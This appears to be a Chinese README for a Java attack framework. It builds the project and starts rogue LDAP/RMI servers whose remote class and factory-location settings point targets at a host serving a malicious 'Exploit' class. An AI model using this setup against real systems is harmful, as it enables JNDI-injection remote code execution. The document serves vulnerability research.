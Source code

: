 # JokerFrameWork

## 0x00 简介

一个Java写的攻击框架，主要负责解决每次分析完漏洞后poc散乱放置的问题，同时也为了更方便的在分析过程中搭建各种服务，如开启`rmi server`这样的重复性劳动。

## 0x01 依赖

本项目主要由以下组件构成：
* SpringBoot：`1.5.8`(SpringShell自带的SpringBoot版本)
* SpringShell：`2.0.0.RELEASE`

## 0x02 使用

### 2.1 从源码编译

在项目根目录直接运行：

```
./gradlew build
```

如果遇到测试不通过的情况可以执行以下命令跳过测试：

```
./gradlew build -x test
```

编译生成的jar包在`./build/libs/`

### 2.2 server使用案例

1. 查看可创建服务

    ```shell script
     list server
    ```
2. 查看已经存在的服务

    ```
     list server_process
    ```

3. 创建server session（也就是一个shellContext）用于接收存储参数

    ```
     server ldap
    ```
  
4. 选择想要创建的服务

    ```
     set serverName ldap-server
    ```
   
5. 设置服务开启的url和端口信息：

    ldap默认`0.0.0.0:1389`
    rmi默认`0.0.0.0:2000`

    ```
     set serverPort 8999
    ```

6. 设置必须参数：

    ldap需要设置`remote_className`， `remote_FactoryLocation`
    
    rmi需要设置`remote_className`，`remote_FactoryName`，`remote_FactoryLocation`
    
    主要用于指定远程类名及地址。
    
    ```
     set remote_className Exploit
     set remote_FactoryLocation http://127.0.0.1:9999
    ```

7. 开启服务：

    ```
     run ldap
    ```   

8. 最后开启远程服务绑定自己的恶意类即可

最终效果：

![](./img/jokerserver.jpg)

查看端口占用情况：

![](./img/listserver_process.jpg)

## 3. next

1. 后续会进行文档编写，目前只是demo版本
2. 调整框架结构，支持插件式热插拔